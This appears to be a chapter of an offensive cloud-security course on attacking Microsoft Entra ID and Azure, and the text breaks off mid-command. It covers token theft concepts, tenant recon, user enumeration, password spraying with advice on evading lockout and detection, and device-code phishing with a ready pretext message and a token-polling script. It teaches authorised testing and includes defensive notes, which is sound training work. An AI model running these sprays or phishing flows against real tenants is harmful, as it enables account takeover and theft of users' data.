**Level:** Advanced · **Track:** Cloud Security · **Read time:** 320 min

This is Chapter 4 of the Cloud Security notebook. The previous three chapters lived almost entirely in Amazon's world — the shared-responsibility model, then hands-on AWS recon and IAM/S3/IMDS abuse, then the tooling (Pacu, ScoutSuite, Prowler) that industrialises that work. This chapter moves to Microsoft Azure, and the single most important thing to understand up front is that Azure's centre of gravity is not the resource plane at all — it is **identity**. In AWS you attack IAM as one service among many; in Azure, the identity provider (**Entra ID**, the product formerly and still widely called **Azure AD**) is the front door to every SaaS app, every Office 365 mailbox, every subscription, and often the on-premises Active Directory as well. Compromise identity and you frequently get everything else for free.

Because of that, most "Azure attacks" you will run are really *identity* attacks — token theft, consent phishing, spraying, role abuse — and only some of them touch the Azure Resource Manager (ARM) plane where VMs and storage live. This chapter is built around that split: the first half is the Entra ID identity plane (recon, initial access, tokens), the second half is the Azure resource plane and the bridges between the two (privilege escalation, lateral movement, on-prem pivot, persistence), and it closes with one consolidated detection-and-defense part.

Everything here is for tenants and subscriptions you own or are explicitly authorised in writing to assess, within Microsoft's unified penetration-testing rules of engagement (you no longer need to pre-notify Microsoft for most in-scope testing, but you are bound by the [Microsoft Cloud Penetration Testing Rules of Engagement], and you must never touch shared platform infrastructure). Password spraying, consent phishing and token theft against a tenant you do not own is unauthorised access and a crime in essentially every jurisdiction. Practise on your own Microsoft 365 Developer tenant, or on purpose-built ranges such as **PurpleCloud**, **AzureGoat**, **XMGoat**, **PwnedLabs** and **BloodHound's** sample data.

---

## Part 1: The Entra ID Model — Why Azure Is an Identity Problem

Before any tooling, get the model straight, because Azure's terminology is a minefield and half of all failed engagements come from confusing two things that sound identical but are governed by completely separate authorization systems.

Microsoft renamed **Azure Active Directory** to **Entra ID** in 2023. The two names are the same product; you will see both everywhere — in bloodhound output, in Microsoft's docs, in your `az` CLI errors. Treat "Azure AD" and "Entra ID" as synonyms and move on.

The critical distinction is between **two completely separate authorization systems** that both live "in Azure":

- **Entra ID roles** (directory roles) — e.g. *Global Administrator*, *Privileged Role Administrator*, *Application Administrator*, *User Administrator*. These govern the **identity/directory plane**: users, groups, app registrations, service principals, conditional access, MFA. A Global Admin owns the tenant's identity but, by default, owns **zero** Azure subscriptions.
- **Azure RBAC roles** (resource roles) — e.g. *Owner*, *Contributor*, *Reader*, *User Access Administrator*. These govern the **resource plane** managed by Azure Resource Manager (ARM): VMs, storage accounts, Key Vaults, networks, Automation Accounts. An *Owner* of a subscription controls those resources but, by default, has **no** directory privileges.



The two planes are bridged by exactly one dangerous switch: a Global Administrator can flip **"Access management for Azure resources"** (the *elevateAccess* toggle) in Entra properties and instantly become **User Access Administrator at the root management group** — from which they can grant themselves Owner over every subscription. That single toggle is the classic identity-to-resource escalation and you will come back to it in Part 11.

**Why this matters for you as an attacker:** the very first question after any Azure compromise is "which plane does this credential live in?" A stolen token for `graph.microsoft.com` is an identity-plane token and will *not* list VMs; a token for `management.azure.com` is a resource-plane token and will *not* read the directory. Grabbing the wrong audience token and then wondering why enumeration returns nothing is the single most common beginner mistake.

### Tenants, subscriptions, and the trust hierarchy

- A **tenant** is one Entra ID directory — one organisation's identity boundary, identified by a **Tenant ID** (a GUID) and one or more verified DNS domains (`contoso.com`, `contoso.onmicrosoft.com`).
- A tenant can trust **many subscriptions** (billing/resource containers). Subscriptions roll up into **management groups**, up to a single **root management group** whose ID equals the tenant ID.
- **Guest (B2B) users** from other tenants can be invited in — a rich, under-audited attack surface, since guests often retain more directory read access than defenders expect.



Keep this hierarchy in your head; every privilege-escalation path in Part 11 is really about climbing it or crossing between the two planes.

---

## Part 2: The Token Model — OAuth 2.0, JWTs, PRTs and Refresh Tokens

Every single attack in this chapter ultimately manipulates a **token**. If you understand Microsoft's token model you understand Azure attacks; if you don't, you'll be copy-pasting commands you can't debug. So we build it from scratch.

Entra ID is an **OAuth 2.0** authorization server and an **OpenID Connect** identity provider. When a client (a browser, the `az` CLI, a mobile app) wants to call an API, it obtains **tokens** from Entra's token endpoints:

- `https://login.microsoftonline.com/{tenant}/oauth2/v2.0/authorize` — the authorize endpoint (user-facing consent/login).
- `https://login.microsoftonline.com/{tenant}/oauth2/v2.0/token` — the token endpoint (where codes/refresh tokens are exchanged for access tokens).

Three token types matter:

| Token | Format | Lifetime (default) | What it's for | Attacker value |
|-------|--------|--------------------|---------------|----------------|
| **Access token** | Signed JWT | ~60–90 min | Presented to a resource API (Graph, ARM, Key Vault) as `Authorization: Bearer` | Direct API access for the token's *audience* and *scopes* until expiry |
| **Refresh token** | Opaque string | ~24 h to 90 days (rolling) | Exchanged at the token endpoint for new access tokens without re-auth | Long-lived; can mint access tokens for *many* resources (FOCI) |
| **Primary Refresh Token (PRT)** | Encrypted blob bound to a device | ~14 days, renews | Issued to Entra-joined/registered Windows devices; enables SSO across all apps | The crown jewel — a stolen PRT is effectively the user's whole identity |

An **access token** is a JWT — three base64url segments (`header.payload.signature`) separated by dots. Decode the payload (never trust the signature client-side) and the important claims are:

- `aud` — **audience**: which API this token is for. `https://graph.microsoft.com`, `https://management.azure.com`, `https://vault.azure.net`, or an app's client ID. This tells you which *plane* you're on.
- `scp` — **scopes** (delegated) or `roles` (application permissions): what you can do. `User.Read`, `Directory.ReadWrite.All`, `user_impersonation`, etc.
- `oid` — the object ID of the principal (user or service principal).
- `upn` / `unique_name` — the user principal name.
- `appid` — the client application that requested the token.
- `tid` — tenant ID.
- `amr` — how they authenticated (`pwd`, `mfa`, `rsa`) — tells you whether MFA was satisfied.

Decode any token quickly:

```bash
# Split a JWT and pretty-print the payload (2nd segment).
TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIs...."
echo "$TOKEN" | cut -d. -f2 | tr '_-' '/+' | \
  awk '{ l=length($0)%4; if(l>0) for(i=0;i<4-l;i++) $0=$0"="; print }' | \
  base64 -d 2>/dev/null | jq .
```

Sample decoded payload (abridged):

```json
{
  "aud": "https://graph.microsoft.com",
  "iss": "https://sts.windows.net/9188040d-6c67-4c5b-b112-36a304b66dad/",
  "app_displayname": "Microsoft Azure CLI",
  "appid": "04b07795-8ddb-461a-bbee-02f9e1bf7b46",
  "oid": "3b6...e21",
  "scp": "User.Read Directory.Read.All Group.ReadWrite.All",
  "tid": "9188040d-6c67-4c5b-b112-36a304b66dad",
  "upn": "alice@contoso.com",
  "amr": ["pwd"]
}
```

Notice `appid` `04b07795-8ddb-461a-bbee-02f9e1bf7b46` — that is the **well-known client ID of the Azure CLI**, one of a small set of *first-party Microsoft public clients* that are pre-consented in every tenant and are **FOCI** (Family of Client IDs) members.

### FOCI — the trick that makes one refresh token open many doors

**Family of Client IDs (FOCI)** is a Microsoft feature where a set of first-party apps share a "family" so that a refresh token issued to one can be redeemed for an access token *scoped to another*. Practically: get a refresh token via the Azure CLI client, and you can redeem it for a **Microsoft Graph** token, an **Outlook** token, a **Teams** token, an **ARM** token — pivoting across the entire Microsoft estate from a single credential. This is why tools like **ROADtools** and **TokenTactics** revolve around FOCI refresh-token juggling.



**Security relevance:** because refresh tokens survive password changes until explicitly revoked (you must revoke sessions / `Revoke-MgUserSignInSession`, not just reset the password), a single phished FOCI refresh token is durable persistence. Keep this in mind for both offense (Part 12) and the defensive revocation guidance in Part 13.

---

## Part 3: Unauthenticated Recon — What You Can Learn Before You Have Any Credential

Entra ID exposes a surprising amount to **completely unauthenticated** callers, because several endpoints must answer questions like "does this tenant exist?" and "is this domain federated?" *before* login. This is real, low-risk, out-of-band recon you can run against an authorised target's public domain with nothing but the domain name.

### The OpenID configuration and tenant ID

Every tenant publishes an unauthenticated OpenID Connect discovery document. Give it a domain and it hands back the tenant GUID:

```bash
# Resolve a domain to its tenant ID — no auth required.
curl -s "https://login.microsoftonline.com/contoso.com/.well-known/openid-configuration" | jq -r '.issuer, .authorization_endpoint'
# issuer: https://login.microsoftonline.com/9188040d-6c67-4c5b-b112-36a304b66dad/v2.0
# The GUID between the slashes IS the tenant ID.
```

### GetUserRealm — federation and tenant brand

The `GetUserRealm` endpoint reveals whether a domain is **Managed** (auth happens in Entra) or **Federated** (auth is redirected to an on-prem/third-party IdP such as ADFS or Okta). Federation is a juicy detail because it tells you where credentials are actually validated and whether legacy protocols may be in play.

```bash
curl -s "https://login.microsoftonline.com/getuserrealm.srf?login=user@contoso.com&xml=1"
```

```xml
<RealmInfo Success="true">
  <State>4</State>
  <UserState>1</UserState>
  <Login>user@contoso.com</Login>
  <NameSpaceType>Federated</NameSpaceType>
  <FederationBrandName>Contoso Corp</FederationBrandName>
  <AuthURL>https://sts.contoso.com/adfs/ls/?...</AuthURL>
</RealmInfo>
```

`NameSpaceType` of `Federated` plus an `AuthURL` pointing at `sts.contoso.com/adfs` tells you there's an on-prem ADFS server — a separate, often-vulnerable attack surface (Golden SAML lives there, Part 12).

### Tenant OSINT with the tooling

Two purpose-built recon tools industrialise the above:

**`AADInternals`** (PowerShell) — the swiss-army knife of Entra attacks, written by Dr. Nestori Syynimaa. Install from PowerShell Gallery:

```powershell
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
# Unauthenticated tenant recon:
Invoke-AADIntReconAsOutsider -DomainName "contoso.com" | Format-Table
```

Sample output:

```
Tenant brand:       Contoso Corp
Tenant name:        contoso.onmicrosoft.com
Tenant id:          9188040d-6c67-4c5b-b112-36a304b66dad
DesktopSSO enabled: True
CBA enabled:        False

Name                       DNS   MX    SPF   DMARC  Type       STS
----                       ---   ---   ---   -----  ----       ---
contoso.com                True  True  True  True   Federated  sts.contoso.com
contoso.mail.onmicrosoft   True  True  True  False  Managed
dev.contoso.com            True  False False False  Managed
```

That one command gives you the tenant ID, brand, every verified domain, which domains are federated (and the STS host), whether **Seamless SSO / DesktopSSO** is on (relevant to a specific credential-relay attack), and whether certificate-based auth is enabled. **This is the single best first move against a new tenant** — it is entirely unauthenticated and invisible to the target's sign-in logs.

**`o365creeper` / `MailSniper`-style user validation** — Microsoft's login flow leaks whether a username *exists* before any password is tried, via the `GetCredentialType` endpoint (`IfExistsResult` field). This enables **user enumeration** (Part 4) without a single failed sign-in appearing, *if* the tenant hasn't hardened it.



**Bug bounty / CTF note:** tenant-recon findings themselves are rarely bounty-payable, but a *federation misconfiguration* or an exposed app registration you find here can be. On CTF-style ranges (PwnedLabs "Enter the Cloud", XMGoat) this exact recon chain is usually step one.

---

## Part 4: User Enumeration and Password Spraying Against Entra

Once you have a list of likely usernames (from `AADInternals`, LinkedIn scraping, breach data, or the tenant's email format), the next move against a **Managed** domain is **password spraying** — trying one carefully chosen password across *many* accounts, to stay under lockout thresholds, rather than many passwords against one account.

### Building the username list

Users are almost always `first.last@contoso.com` or `flast@contoso.com`. Validate candidates against `GetCredentialType`:

```bash
# One username at a time; IfExistsResult==0 means the account exists.
curl -s -X POST "https://login.microsoftonline.com/common/GetCredentialType" \
  -H "Content-Type: application/json" \
  -d '{"Username":"alice@contoso.com"}' | jq '.IfExistsResult'
# 0  → account exists
# 1  → account does NOT exist
# 5  → different identity provider (federated)
# 6  → account exists in a different tenant
```

**Blue team note:** modern tenants can set the *"Hide user existence"* behaviour and enable **Smart Lockout**, which normalises this response so `IfExistsResult` no longer leaks. If every probe returns the same value, enumeration via this endpoint is closed and you fall back to spray-and-observe.

### Spraying tools — MSOLSpray and friends

**`MSOLSpray`** (originally PowerShell by Beau Bullock, with Python ports) sprays against the Entra token endpoint and, crucially, *parses the error codes* Entra returns so you learn far more than "valid/invalid". Install the Python port:

```bash
git clone https://github.com/dafthack/MSOLSpray && cd MSOLSpray
pip install -r requirements.txt
python3 msolspray.py --userlist users.txt --password 'Spring2027!' --url https://login.microsoft.com
```

The gold is in the **AADSTS error codes** Entra returns per attempt:

| AADSTS code | Meaning | Attacker takeaway |
|-------------|---------|-------------------|
| (no error) | Valid credentials, no other blocker | **Full compromise** — token issued |
| AADSTS50126 | Invalid username or password | Wrong password (or user invalid) |
| AADSTS50053 | Account locked (Smart Lockout) | Back off — you're tripping lockout |
| AADSTS50055 | Password expired | **Valid password!** Can reset via SSPR |
| AADSTS50057 | Account disabled | Valid creds, account off |
| AADSTS50076 | MFA required | **Valid password!** MFA is the only blocker |
| AADSTS50158 | Conditional Access blocked | **Valid password!** CA policy stopped you |
| AADSTS53003 | Blocked by Conditional Access | Valid, CA-blocked (device/location) |
| AADSTS50034 | User does not exist | Invalid username |

Note how many codes secretly confirm a *correct password* — `50076` (MFA), `50158`/`53003` (Conditional Access), `50055` (expired). Those accounts are "password-valid, second-factor-blocked", and are exactly the targets for **MFA-fatigue**, **device-code phishing** (Part 5) or **SSPR abuse**.

```bash
# Spray safely: ONE password per run, then wait past the lockout window (~30 min).
# Never loop a wordlist per-user — that is how you lock out an entire tenant and get caught.
python3 msolspray.py --userlist users.txt --password 'Autumn2027!' 2>&1 | tee spray1.log
sleep 2400
python3 msolspray.py --userlist users.txt --password 'Contoso@123' 2>&1 | tee spray2.log
```

**Operational security:** every spray attempt *is* a sign-in event with `resultType` non-zero from your source IP. Real operators route through **residential/rotating proxies** or the **FireProx**/**Azure Front Door** trick to distribute source IPs, and pace attempts to defeat Smart Lockout and the "Impossible travel"/"Unfamiliar sign-in properties" risk detections. We cover the defender's view of exactly these signals in Part 13.



---

## Part 5: Initial Access Without a Password — Consent Grants and Device-Code Phishing

Spraying gets you passwords; but Entra's OAuth design offers two ways to get a *token* without ever knowing the password — both are phishing techniques, both are heavily used by real threat actors (notably the illicit-consent campaigns and the device-code phishing wave against M365 tenants).

### Illicit consent grant ("OAuth phishing")

In the OAuth authorization-code flow, a user *consents* to let an application access resources on their behalf. If an attacker registers a malicious multi-tenant app requesting scopes like `Mail.Read`, `offline_access`, `Files.ReadWrite.All`, and tricks a user into clicking **Accept** on the genuine Microsoft consent page, Entra issues the attacker's app a **refresh token** for that user — no password, no MFA prompt after the fact, and it survives password resets. The consent page is a *real* `login.microsoftonline.com` page, which is what makes this so effective.



**Defensive relevance (foreshadowing Part 13):** the mitigation is to restrict user consent to *verified publishers* / low-risk delegated permissions and require **admin consent** for anything sensitive; the detection is the `Add app role assignment / Consent to application` audit event and the `illicitConsentGrant` risk detection. On CTF ranges, the "click the consent link" step is a scripted victim.

### Device-code phishing

The **OAuth 2.0 device authorization grant** is meant for input-constrained devices (smart TVs, CLI on a headless box): the device shows a short code and a URL (`microsoft.com/devicelogin`), the user enters the code on their phone, and the device polls until the user authenticates — then the *device* receives the tokens. An attacker abuses this by requesting a device code themselves and sending the victim the code + the **legitimate** Microsoft URL. The victim authenticates (satisfying MFA on their own device!), and the *attacker's* polling client receives fully-MFA'd tokens.

```bash
# 1) Attacker requests a device code using a FOCI first-party client (Azure CLI).
CLIENT=04b07795-8ddb-461a-bbee-02f9e1bf7b46   # Azure CLI, FOCI
resp=$(curl -s -X POST "https://login.microsoftonline.com/common/oauth2/v2.0/devicecode" \
  -d "client_id=$CLIENT&scope=https://graph.microsoft.com/.default offline_access")
echo "$resp" | jq
# {
#   "user_code": "F7K2M9QX",
#   "device_code": "AAQAB...",
#   "verification_uri": "https://microsoft.com/devicelogin",
#   "expires_in": 900, "interval": 5
# }
```

You now craft a pretext ("IT: verify your account at microsoft.com/devicelogin with code F7K2M9QX") — the URL is genuinely Microsoft's, which sails past URL-reputation filters. When the victim completes it, poll for the tokens:

```bash
# 2) Attacker polls the token endpoint until the victim authenticates.
while true; do
  t=$(curl -s -X POST "https://login.microsoftonline.com/common/oauth2/v2.0/token" \
    -d "grant_type=urn:ietf:params:oauth:grant-type:device_code&client_id=$CLIENT&device_code=$DEVICE_CODE")
  echo "$t" | jq -e .access_token >/dev/null 2>&1 && { echo "$t" | jq; break; }
  sleep 5
done
# → access_token (aud=graph, amr includes mfa!) + refresh_token (FOCI)
```

The returned refresh token is FOCI, so from here you pivot to ARM, Outlook, Teams, etc. (Part 2). **`TokenTactics`** (PowerShell) automates this end to end (`Invoke-DeviceCodePhish`, `RefreshTo-MSGraphToken`, `RefreshTo-AzureManagementToken`).

**Detection foreshadow:** device-code sign-ins appear in the sign-in logs with a distinctive `authenticationProtocol == deviceCode`; a device-code sign-in from an unusual location for a user who normally uses password+MFA is a strong hunt signal (Part 13). Conditional Access can now block the device-code flow explicitly.

---

## Part 6: Tooling from Scratch — az CLI, Az PowerShell, ROADtools, MicroBurst, AzureHound

Before we enumerate a compromised tenant, install and understand the tools. Following the tool-from-scratch rule, each gets a "what/why/how".

### The Azure CLI (`az`)

**What:** Microsoft's official cross-platform command-line tool for the *resource* plane (ARM) with some directory commands via `az ad`. **Why:** it's the fastest way to drive `management.azure.com`, and its cached tokens live in `~/.azure/` — a post-exploitation loot target. **Install on Kali:**

```bash
curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash
az version
```

Core workflow after you have a credential:

```bash
az login                                   # interactive (browser) — or:
az login --service-principal -u <appId> -p <secret> --tenant <tid>
az login --use-device-code                 # device-code flow (headless)
az account show                            # current subscription/tenant context
az account list -o table                   # every subscription this identity can see
az account get-access-token --resource https://graph.microsoft.com  # extract a raw token
```

That last command is gold: it prints a live bearer token you can carry into any other tool.

### Az PowerShell (`Az` module)

**What:** the PowerShell equivalent, plus the `Microsoft.Graph` modules for the directory plane. **Why:** many Entra objects (Conditional Access, roles, app credentials) are far easier to manipulate from PowerShell/Graph than from `az`. **Install:**

```powershell
Install-Module Az -Scope CurrentUser
Install-Module Microsoft.Graph -Scope CurrentUser
Connect-AzAccount                                  # ARM plane
Connect-MgGraph -Scopes "Directory.Read.All"       # Graph plane
Get-AzContext; Get-MgContext
```

### ROADtools

**What:** Dirk-jan Mollema's Entra ID toolkit — `roadrecon` (an authenticated enumeration engine that dumps the entire directory to a local SQLite DB and serves a web GUI) plus `roadtx` (token exchange / FOCI juggling). **Why:** it is the most complete offline picture of a tenant you can get from a single user token, and it visualises Entra relationships the portal hides. **Install & run:**

```bash
pip install roadrecon roadtools_auth
roadrecon auth -u alice@contoso.com -p 'Password1!'   # or --device-code / -r <refreshtoken>
roadrecon gather                                       # dumps directory → roadrecon.db
roadrecon gui                                          # http://127.0.0.1:5000
```

`roadrecon` pulls users, groups, roles, app registrations, service principals, OAuth2 grants, Conditional Access policies, devices, and their relationships — the raw material for finding privilege-escalation paths.

### MicroBurst

**What:** NetSPI's PowerShell toolkit focused on the *Azure resource* plane — subdomain/anon storage discovery, Key Vault dumping, Automation Account looting, Runbook abuse. **Why:** it automates the resource-plane privesc primitives in Part 11. **Install:**

```powershell
git clone https://github.com/NetSPI/MicroBurst
Import-Module ./MicroBurst/MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base contoso   # find public storage/containers, unauth
```

### AzureHound + BloodHound

**What:** the Azure collector for **BloodHound** — it ingests Entra + Azure RBAC into the same graph database that AD attackers use, so you can query *attack paths* ("who can reach Global Admin?") instead of eyeballing role lists. **Why:** on a real tenant with thousands of objects, graph queries are the only sane way to find the shortest path to tenant takeover. **Install & collect:**

```bash
# AzureHound (Go binary) collects with a user or SP credential:
./azurehound -u "alice@contoso.com" -p 'Password1!' -t contoso.com list -o output.json
# then import output.json into BloodHound CE and run built-in Azure queries.
```



---

## Part 7: Post-Compromise Enumeration — Mapping the Tenant

You have a token (from spray, consent, or device-code). Now enumerate both planes systematically. Whoami first — always establish *which principal, which plane, which roles*.

### Who am I, and what can I see?

```bash
# Identity-plane: who is this token?
az ad signed-in-user show 2>/dev/null || az account get-access-token --resource https://graph.microsoft.com >/dev/null
# Resource-plane: what subscriptions/roles?
az account list -o table
az role assignment list --all --assignee <your-oid> -o table
```

Graph-side, list your directory role memberships (the identity-plane privileges):

```bash
TOKEN=$(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/me/memberOf?\$select=displayName,id" | jq -r '.value[].displayName'
```

### Enumerate users, groups, roles, apps

```bash
# All users (watch pagination @odata.nextLink):
curl -s -H "Authorization: Bearer $TOKEN" \
